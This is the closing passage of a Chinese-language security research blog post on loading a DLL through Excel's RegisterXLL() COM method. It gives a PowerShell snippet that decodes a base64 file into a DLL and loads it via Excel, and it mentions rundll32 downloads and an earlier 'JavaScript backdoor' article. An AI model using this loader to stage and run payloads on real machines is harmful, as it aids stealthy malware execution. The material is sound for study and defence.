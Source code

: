 **注：**

以上两段代码结合，可应用在通过rundll32进行文件下载（先通过rundll32下载base64加密的文件，然后使用js脚本解密），可解决在之前的文章《JavaScript backdoor》给读者留下的小bug


base64解密该文件并加载dll对应的powershell代码如下：

```
$FilePath="C:\test\test1.dll"
$base64Buf = Get-content c:\test\1.txt
$fileContentBytes = [System.Convert]::FromBase64String($base64Buf) 
[System.IO.File]::WriteAllBytes($FilePath,$fileContentBytes)
$excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application"))
$excel.RegisterXLL($FilePath)
```


## 0x05 小结
---

本文介绍了利用Excel.Application object's RegisterXLL() method加载dll的相关方法，着重分析如何编写js和powershell脚本对其扩展，并解决了在之前的文章《JavaScript backdoor》给读者留下的小bug。

---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)





